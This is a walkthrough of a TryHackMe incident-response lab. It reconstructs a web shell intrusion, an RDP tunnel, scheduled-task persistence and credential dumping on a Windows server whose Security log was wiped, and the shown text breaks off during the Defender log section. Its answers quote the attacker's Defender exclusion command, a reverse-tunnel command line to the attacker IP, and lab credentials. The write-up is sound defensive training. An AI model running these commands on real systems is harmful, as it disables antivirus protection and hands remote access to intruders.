# Logless Hunt

| Field | Details |
|-------|---------|
| **Platform** | TryHackMe |
| **Path** | Advanced Endpoint Investigations |
| **Module** | Windows Endpoint Investigation |
| **Difficulty** | Medium |
| **Category** | Digital Forensics / IR |
| **Room Link** | [tryhackme.com/room/loglesshunt](https://tryhackme.com/room/loglesshunt) |
| **Author** | [OPT4RUN](https://tryhackme.com/p/OPT4RUN) |

---

## Overview

Logless Hunt simulates a realistic post-compromise investigation on a Windows server (HR01-SRV) where the threat actor deliberately cleared Security logs to erase their tracks. The scenario spans the full attack chain — from web shell upload through RDP tunnelling, persistence via scheduled tasks, and credential dumping with Mimikatz — while forcing the analyst to rely entirely on alternative log sources that survived the wipe.

This room is highly relevant for SOC L2/L3 analysts and DFIR practitioners because it demonstrates that Security log clearance does not equate to a clean machine. Web access logs, PowerShell logs, RDP session logs, Task Scheduler logs, and Windows Defender logs each preserve independent artefacts of attacker activity — and correlating them reconstructs the full attack timeline.

---

## Task 1 — Introduction

The room centres on a medium-sized company whose IT team cleared Windows servers of suspicion after finding empty Security and System logs — only to discover their website serving crypto scam ads days later. The investigation focuses on HR01-SRV, an underutilised HR server that saw a spike in HTTP traffic from the internal Users subnet.

The key challenge: **reconstruct the attack without Security logs**, using only the alternative log sources that remained intact.

---

## Task 2 — Scenario

The VM is accessible via RDP or the split-screen browser:

| Field | Value |
|-------|-------|
| **Username** | Administrator |
| **Password** | Admin123 |
| **IP** | MACHINE_IP |

The starting point is Event Viewer. The Security log is present but effectively empty — cleared by the attacker. Event ID 1102 (the log-clear event itself) is the only entry remaining, confirming deliberate tampering.



**Q: What is the earliest Event ID you see in the Security logs?**
```
1102
```

---

## Task 3 — Initial Access | Web Access Logs

### Web Access Logs

IIS and Apache both log HTTP requests by default, making web access logs a primary artefact for detecting web-based initial access. Key fields per log entry:

| Field | Forensic Value |
|-------|----------------|
| Source IP | Origin of the request |
| Timestamp | Request timing |
| HTTP Method | GET/POST distinguishes browsing from data submission |
| Requested URL | Identifies targeted resources |
| Status Code | 200 = success; 401 = failed auth; 404 = not found |

Default log paths:
- **Apache:** `C:\Apache24\logs`
- **IIS:** `C:\inetpub\logs\LogFiles\<WEBSITE>`

🔴 Web shells are almost always delivered via POST requests to upload endpoints. A POST to an uploads directory followed by subsequent GET requests to the same path is a strong indicator of web shell deployment and usage.

### Investigation

HR01-SRV is running Apache on port 80, hosting an internal HR web application.



Reviewing `C:\Apache24\logs\access.log`, one source IP stands out with a high volume of requests across multiple paths in a short timeframe — characteristic of automated web scanning.



The same IP subsequently issued a POST request that uploaded a file to the server's uploads directory, followed by GET requests to the uploaded path — confirming web shell deployment.





**Q: What is the title of the HR01-SRV web app hosted on port 80?**
```
Salary Raise Approver v0.1
```

**Q: Which IP performed an extensive web scan on the HR01-SRV web app?**
```
10.10.23.190
```

**Q: What is the absolute path to the file that the suspicious IP uploaded?**
```
C:\Apache24\htdocs\uploads\search.php
```

**Q: What would you call the uploaded malware / backdoor?**
```
Web Shell
```

---

## Task 4 — From Web to RDP | PowerShell Logs

### PowerShell Logging Sources

Three independent PowerShell logging mechanisms exist, each capturing different execution contexts:

| Log Source | Default State | Event ID | What It Captures |
|------------|--------------|----------|-----------------|
| ConsoleHost_history.txt | Enabled | N/A (text file) | Interactively typed commands only |
| Windows PowerShell channel | Enabled | 600 | PowerShell engine launch + arguments |
| ScriptBlock Logging | **Disabled** | 4104 | Every command — interactive, scripted, obfuscated/Base64 |

**Location of ConsoleHost_history:**
```
%AppData%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

**Event Viewer paths:**
- Windows PowerShell channel: `Applications and Services Logs → Windows PowerShell`
- ScriptBlock Logging: `Apps and Services Logs → Microsoft → Windows → PowerShell → Operational`

💡 ScriptBlock Logging (EID 4104) is the most forensically powerful source — it captures and fully decodes obfuscated and Base64-encoded commands that would otherwise evade detection. If it is enabled on a compromised host, prioritise it.

🔴 Commands executed through a web shell run in a non-interactive context, so they will **not** appear in ConsoleHost_history. They will appear in EID 4104 and EID 600 if those channels are active. This makes ScriptBlock Logging particularly valuable when investigating web shell-based post-exploitation.

### Investigation

With the web shell deployed, the attacker executed PowerShell commands through it. ScriptBlock logs (EID 4104) captured the full command sequence in decoded form.



The attacker then attempted to download a binary from their C2 server.



To avoid Defender detection, an exclusion was added for the Apache directory before executing the binary.



The downloaded binary was used to tunnel a specific remote access protocol back to the attacker's machine.



**Q: What was the first command entered by the attacker?**
```
whoami
```

**Q: What is the full URL of the file that the attacker attempted to download?**
```
http://10.10.23.190:8080/httpd-proxy.exe
```

**Q: What command was run to exclude the file from Windows Defender?**
```
Add-MpPreference -ExclusionPath C:\Apache24
```

**Q: Which remote access service was tunnelled using the uploaded binary?**
```
rdp
```

---

## Task 5 — Breached Admin | RDP Session Logs

### RDP Session Logs

The standard method for tracking RDP logins — filtering EID 4624 with Logon Type 10 — relies on the Security channel, which was wiped here. The dedicated RDP session log channel provides a cleaner alternative.

| Event ID | Meaning |
|----------|---------|
| 21 | Successful RDP connect |
| 24 | RDP disconnect |
| 25 | RDP reconnect |

Key fields per event: **User**, **Session ID** (for correlating connect/disconnect pairs), **Source Network Address**.

💡 `Source Network Address: LOCAL` indicates a local login (system startup or hypervisor utility) — not an external RDP session.

**Event Viewer path:**
```
Applications and Services Logs → Microsoft → Windows → TerminalServices-LocalSessionManager → Operational
```

🔴 Only **successful** RDP logins are recorded in this channel. Failed attempts will not appear here — they would normally surface in Security EID 4625, which is unavailable in this scenario.

### Investigation

With RDP tunnelled to the attacker's machine, the RDP session log shows the first inbound connection shortly after the tunnel was established.



The corresponding disconnect event closes the session window.



**Q: What is the timestamp of the first suspicious RDP login?**
```
2025-01-23 17:00:12
```

**Q: What user did the attacker breach?**
```
HR01-SRV\Administrator
```

**Q: What IP is shown as the source of the RDP login?**
```
10.10.23.190
```

**Q: What is the timestamp when the attacker disconnected from RDP?**
```
2025-01-23 17:16:46
```

---

## Task 6 — Persistence Traces | Scheduled Tasks

### Task Scheduler Logs

Scheduled task creation is typically tracked via EID 4698 in the Security channel — unavailable here. The dedicated TaskScheduler log channel, however, captures task lifecycle events independently.

| Event ID | Trigger |
|----------|---------|
| 106 | Task registered/created |
| 100 | Task started |
| 129 | Task process created |

**Event Viewer path:**
```
Apps and Services Logs → Microsoft → Windows → TaskScheduler → Operational
```

💡 This channel is **disabled by default** but is commonly enabled by IT administrators for debugging. Always check — it's frequently present on production servers.

For deeper correlation, cross-reference with:
- **Task XML** at `C:\Windows\System32\Tasks\` — contains creation timestamp and full task definition
- **Task Scheduler GUI** — if GUI access is available
- **PowerShell/Process Creation logs** — for context around task creation timing

### Investigation

The attacker registered a scheduled task during their RDP session to ensure the RDP tunnel would survive reboots.







🔴 The task name "Apache Proxy" is deliberately chosen to blend in with legitimate Apache service entries — a common attacker tactic to avoid casual detection during manual review.

**Q: What is the name of the suspicious scheduled task?**
```
Apache Proxy
```

**Q: When was the suspicious scheduled task created?**
```
2025-01-23 17:05:37
```

**Q: What is the task's "Trigger" value as shown in Task Scheduler GUI?**
```
At system startup
```

**Q: What is the full command line of the malicious task?**
```
C:\Apache24\bin\httpd-proxy.exe client 10.10.23.190:10443 R:3389:127.0.0.1:3389
```

---

## Task 7 — Credential Access | Windows Defender

### Windows Defender Logs

Even when EDR is absent, Windows Defender provides a reliable detection and logging layer. Every detection, remediation, and configuration change is logged independently of the Security channel.

| Event ID | Trigger |
|----------|---------|
| 1116 | Threat detected |
| 1117 | Threat remediated/quarantined |
| 5001 | Protection engine disabled |
| 5007 | Settings modification |
| 5013 | Exclusion added |

**Event Viewer path:**
```
Apps and Services Logs → Microsoft → Windows → Windows Defender → Operational
```

Key fields in detection events:

| Field | Value |
|-------|-------|
| Path/File | Full path to the malicious file |
| Path/Webfile | URL from which it was downloaded |
| Name | Threat family / malware classification |
| Process Name | Process that created or executed malware |
| User | User context of the download or execution |

💡 The Windows Defender graphical detection history (visible in the Security app UI) and the event logs are **independent**. Attackers must clear both to fully erase Defender traces: event logs **and** the detection history database at `C:\ProgramData\Microsoft\Windows Defender\Scans\History\Service\DetectionHistory\`.

🔴 The attacker's `Add-MpPreference -ExclusionPath C:\Apache24` command from Task 4 was logged as EID 5013 — but it only covered the Apache directory. Tools downloaded or run outside that exclusion path (such as Mimikatz) were still subject to detection.

### Investigation

Despite the exclusion, Defender caught the attacker's tooling. The first quarantine event flagged the tunnelling binary.



A second detection followed for a credential dumping tool.

